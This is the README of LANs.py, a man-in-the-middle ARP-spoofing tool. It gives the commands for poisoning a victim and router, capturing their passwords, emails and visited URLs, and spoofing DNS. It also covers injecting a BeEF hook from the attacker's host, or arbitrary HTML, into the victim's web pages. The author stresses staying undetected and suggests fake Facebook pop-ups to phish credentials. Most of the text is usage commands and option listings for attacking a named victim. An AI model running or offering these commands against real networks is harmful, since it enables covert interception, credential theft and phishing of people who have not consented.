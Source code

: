 LANs.py
========

Multithreaded asynchronous packet parsing/injecting arp spoofer.

Individually arpspoofs the target box, router and DNS server if necessary. Does not poison anyone else on the network. Displays all most the interesting bits of their traffic and can inject custom html into pages they visit. Cleans up after itself.


Prereqs: Linux, scapy, python nfqueue-bindings 0.4.3+, aircrack-ng, python twisted, BeEF (optional), and a wireless card capable of promiscuous mode if you don't use the -ip option

Tested on Kali 1.0. In the following examples 192.168.0.5 will be the attacking machine and 192.168.0.10 will be the victim.



Complete Usage:

usage: LANs.py [-h] [-b BEEF] [-c CODE] [-u] [-ip IPADDRESS] [-vmac VICTIMMAC]
               [-d] [-v] [-dns DNSSPOOF] [-set] [-p] [-na] [-n] [-i INTERFACE]
               [-rip ROUTERIP] [-rmac ROUTERMAC] [-pcap PCAP]

Simplest usage:

```
python LANs.py
```

Because there's no -ip option this will arp scan the network, compare it to a live running promiscuous capture, and list all the clients on the nextwork including their Windows netbios names along with how many data packets they're sending. so you can immediately target the active ones. The ability to capture data packets they send is very dependant on physical proximity and the power of your network card. then you can Ctrl-C and pick your target which it will then ARP spoof. Simple target identification and ARP spoofing. 

Passive harvesting usage:

```
python LANs.py -u -d -p -ip 192.168.0.10
```

-u: prints URLs visited; truncates at 150 characters and filters image/css/js/woff/svg urls since they spam the output and are uninteresting

-d: open an xterm with driftnet to see all images they view

-p: print username/passwords for FTP/IMAP/POP/IRC/HTTP, HTTP POSTs made, all searches made, incoming/outgoing emails, and IRC messages sent/received; will also decode base64 if the email authentication is encrypted with it

-ip: target this IP address 

Easy to remember and will probably be the most common usage of the script: options u, d, p, like udp/tcp.


HTML injection:

```
python LANs.py -b http://192.168.0.5:3000/hook.js
```

Injecting BeEF hook URL into pages the victim visits.   


```
python LANs.py -c '<title>Owned.</title>'
```

Inject arbitrary HTML into pages the victim visits. First tries to inject it after the first `<head>` and failing that injects prior to the first `</head>`. This example will change the page title to 'Owned.'

More info about BEeF Project: (http://beefproject.com/, tutorial: http://resources.infosecinstitute.com/beef-part-1/)

Read from pcap:

```
python LANs.py -pcap libpcapfilename -ip 192.168.0.10
```

To read from a pcap file you must include the target's IP address with the -ip option. It must also be in libpcap form which is the most common anyway. One advantage of reading from a pcap file is that you do not need to be root to execute the script. 


Aggressive usage:
```
python LANs.py -v -d -p -n -na -set -dns facebook.com -c '<title>Owned.</title>' -b http://192.168.0.5:3000/hook.js -ip 192.168.0.10
```

All options:

```
python LANs.py -h
```

usage: LANs.py [-h] [-b BEEF] [-c CODE] [-u] [-ip IPADDRESS] [-vmac VICTIMMAC]
               [-d] [-v] [-dns DNSSPOOF] [-set] [-p] [-na] [-n] [-i INTERFACE]
               [-rip ROUTERIP] [-rmac ROUTERMAC] [-pcap PCAP]

optional arguments:
  -h, --help            show this help message and exit
  -b BEEF, --beef BEEF  Inject a BeEF hook URL. Example usage: -b
                        http://192.168.0.3:3000/hook.js
  -c CODE, --code CODE  Inject arbitrary html. Example usage (include quotes):
                        -c '<title>New title</title>'
  -u, --urlspy          Show all URLs and search terms the victim visits or
                        enters minus URLs that end in .jpg, .png, .gif, .css,
                        and .js to make the output much friendlier. Also
                        truncates URLs at 150 characters. Use -v to print all
                        URLs and without truncation.
  -ip IPADDRESS, --ipaddress IPADDRESS
                        Enter IP address of victim and skip the arp ping at
                        the beginning which would give you a list of possible
                        targets. Usage: -ip <victim IP>
  -vmac VICTIMMAC, --victimmac VICTIMMAC
                        Set the victim MAC; by default the script will attempt
                        a few different ways of getting this so this option
                        hopefully won't be necessary
  -d, --driftnet        Open an xterm window with driftnet.
  -v, --verboseURL      Shows all URLs the victim visits but doesn't limit the
                        URL to 150 characters like -u does.
  -dns DNSSPOOF, --dnsspoof DNSSPOOF
                        Spoof DNS responses of a specific domain. Enter domain
                        after this argument. An argument like [facebook.com]
                        will match all subdomains of facebook.com
  -set, --setoolkit     Start Social Engineer's Toolkit in another window.
  -p, --post            Print unsecured HTTP POST loads, IMAP/POP/FTP/IRC/HTTP
                        usernames/passwords and incoming/outgoing emails. Will
                        also decode base64 encrypted POP/IMAP
                        username/password combos for you.
  -na, --nmapaggressive
                        Aggressively scan the target for open ports and
                        services in the background. Output to
                        ip.add.re.ss.log.txt where ip.add.re.ss is the
                        victim's IP.
  -n, --nmap            Scan the target for open ports prior to starting to
                        sniffing their packets.
  -i INTERFACE, --interface INTERFACE
                        Choose the interface to use. Default is the first one
                        that shows up in `ip route`.
  -rip ROUTERIP, --routerip ROUTERIP
                        Set the router IP; by default the script with attempt
                        a few different ways of getting this so this option
                        hopefully won't be necessary
  -rmac ROUTERMAC, --routermac ROUTERMAC
                        Set the router MAC; by default the script with attempt
                        a few different ways of getting this so this option
                        hopefully won't be necessary
  -pcap PCAP, --pcap PCAP
                        Parse through a pcap file


Cleans the following on Ctrl-C:

--Turn off IP forwarding

--Flush iptables firewall

--Disables monitoring mode

--Individually restore each machine's ARP table



Technical details:

This script uses a python nfqueue-bindings queue wrapped in a Twisted IReadDescriptor to feed packets to callback functions. nfqueue-bindings is used to drop and forward certain packets. Python's scapy library does the work to parse and inject packets.

Injecting code undetected is a dicey game, if a minor thing goes wrong or the server the victim is requesting data from performs things in unique or rare way then the user won't be able to open the page they're trying to view and they'll know something's up. This script is designed to forward packets if anything fails so during usage you may see lots of "[!] Injected packet for www.domain.com" but only see one or two domains on the BEeF panel that the browser is hooked on. This is OK. If they don't get hooked on the first page just wait for them to browse a few other pages. The goal is to be unnoticeable. My favorite BEeF tools are in Commands > Social Engineering. Do things like create an official looking Facebook pop up saying the user's authentication expired and to re-enter their credentials.

#########################################
NOTE TO UBUNTU USERS:
You will need to update your nfqueue-bindings to the latest version (0.4.3 as time of writing) or you will have to edit the Parser.start() (around line 114) function to say:

def start(self, i, payload):
